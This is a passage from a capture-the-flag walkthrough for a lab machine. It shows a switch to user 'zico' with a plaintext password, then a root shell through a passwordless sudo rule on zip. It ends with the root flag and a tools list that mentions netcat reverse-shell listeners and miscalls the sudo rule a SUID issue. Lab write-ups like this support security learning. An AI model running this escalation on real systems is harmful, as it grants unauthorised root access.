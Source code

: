 I used these credentials to switch user to `zico`:

```shellscript
su zico
```

Password: `sWfCsfJSPV9H3AmQzw8`

After switching to the `zico` user, I checked the sudo permissions:

```shellscript
sudo -l
```

**Sudo permissions:**

```plaintext
User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

The user `zico` could run `/usr/bin/zip` as root without a password. This is a privilege escalation vulnerability.

I exploited this vulnerability to gain root access:

```shellscript
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

This command created a zip archive and then executed a shell as root.

```shellscript
id
```

uid=0(root) gid=0(root) groups=0(root)

### Root Flag

Finally, I navigated to the `/root` directory to find the `flag.txt` file.

```shellscript
cd /root
cat flag.txt
```

**Root Flag:**

```plaintext
#### ROOOOT! ####
You did it! Congratz!
Hope you enjoyed!
###
```

## Tools Used

- `netdiscover` - Network discovery
- `nmap` - Port scanning and service version detection
- `gobuster` - Directory and file enumeration
- `phpLiteAdmin` - SQLite database administration
- `netcat` - Setting up listeners for reverse shells
- `php` - Executing PHP code
- `sudo` - Privilege escalation
- `zip` - Exploiting SUID binary for privilege escalation
